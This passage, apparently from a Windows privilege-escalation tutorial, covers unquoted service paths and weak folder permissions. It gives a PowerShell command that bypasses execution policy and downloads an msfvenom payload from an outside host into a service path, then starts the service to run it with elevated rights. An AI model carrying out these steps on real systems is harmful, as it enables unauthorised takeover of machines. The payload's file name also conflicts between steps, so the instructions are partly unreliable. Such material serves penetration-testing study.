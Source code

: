 ![1*30PKDivO2pfHru2iXC3leg.png](../_resources/092da4ad9358ad3e6393ce93784b07fb.png)
Writeable Path detected by winPEAS

Create a payload with `msfvenom` and name it control.exe. Place it in the `C:\Program Files\Unquoted Path Service\common.exe` directory.

powershell -nop -exec bypass -c "(New-Object Net.WebClient).DownloadFile('http://192.168.0.114:8080/common.exe', 'C:\Program Files\Unquoted Path Service\common.exe')"

![1*LgUrHSEy5HcNjSlJaLqHig.png](../_resources/0f97b76acfb15c30cc6e3d0caa79e75d.png)
![1*LgUrHSEy5HcNjSlJaLqHig.png](../_resources/3ded4eb244977c6b03b375c3707790bd.png)
Execute the payload by starting the service using `sc start unquotedsvc`

## Weak Folder Permissions

If a user has write permission in a folder used by a service, he can replace the binary with a malicious one. When the service is restarted the malicious binary is executed with higher privileges.

![1*7NF8JFYj-YzYEfFD2x-H_A.png](../_resources/a241b4d5690fed4620cffe0de3d9e72f.png)
![1*7NF8JFYj-YzYEfFD2x-H_A.png](../_resources/4bc6d6c7ee7b6fd1a1649cdcb821d18f.png)
Service binary having weak permission
![1*U6v8dtbxeZ5pOiqV1chdbw.png](../_resources/399c9c417943022d16774d71a48b3047.png)